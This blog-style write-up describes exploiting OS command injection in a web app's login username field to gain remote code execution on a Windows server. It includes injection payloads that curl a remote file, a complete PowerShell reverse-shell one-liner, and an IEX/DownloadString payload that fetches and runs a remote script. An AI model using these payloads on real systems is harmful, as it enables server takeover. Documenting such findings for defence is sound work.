 ```yaml
---
title: "OS Command Injection to Remote Code Execution"
layout: post
date: 2024-12-10 02:0
categories: blog
---
```


Exploiting OS Command Injection for Remote Code Execution.

## Target Background
The target is a web application designed for asset management, allowing users to create and manage assets efficiently.

## Authentication Mechanisms
The application supports multiple authentication methods, including a standard login form, Google SSO, and GitHub SSO.

## Identifying the Attack Vector
The attack vector was identified as the login form. Users authenticate by submitting valid credentials through this form. Detailed reconnaissance revealed that the **username** field in the JSON request object is susceptible to OS Command Injection.

## Attack Surface Analysis
During reconnaissance, it was determined that the application operates on a Windows environment. This insight guided the selection of Windows-specific OS command payloads for vulnerability testing. The application’s response was observed to return boolean values (true or false), prompting the use of out-of-band (OOB) techniques to confirm the existence of the vulnerability.

As the application response was observed to be boolean **true** or **false** the out of band request technique was used to confirm the attack vector.

### Request
```http
POST /username_exists HTTP/1.1
Host: target.com
Cookie: session cookie: hello
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive

{
	"username": "whoami"
}
```

### Response
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 23 Oct 2024 14:55:05 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Cache-Control: no-store
Pragma: no-cache

{
	"success": false
}
```

To validate the attack vector, various OOB techniques such as ping, curl, and wget were employed. Payloads using the ping command revealed variations in response times, confirming the vulnerability.

### Example Payloads
Windows OS Command injection payload used for exploitation.

```text
|ping -c 5 127.0.0.1||
|curl https://thevillagehacker.com/exploit/file.txt||
```

Using the curl technique, a file was successfully downloaded from a remote server, confirming command injection.

## Exploitation
Based on the Windows environment of the application, a PowerShell reverse shell payload was selected for exploitation. This approach enabled a reverse connection to the attacker’s machine.

### PowerShell Reverse Shell Payload
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### Final Exploitation Payload

```powershell
|powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://thevillagehacker.com/mypowershell.ps1')"||
```

Upon injecting the above payload, a reverse shell connection was established with the application server. Since the application was running with administrative privileges, full control of the server was achieved.

## Conclusion
The exploitation of an OS Command Injection vulnerability in the **username** field of the login form enabled remote code execution on the target system. The successful attack highlights the importance of securing input fields and implementing robust validation mechanisms to prevent such vulnerabilities.

## Reference
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).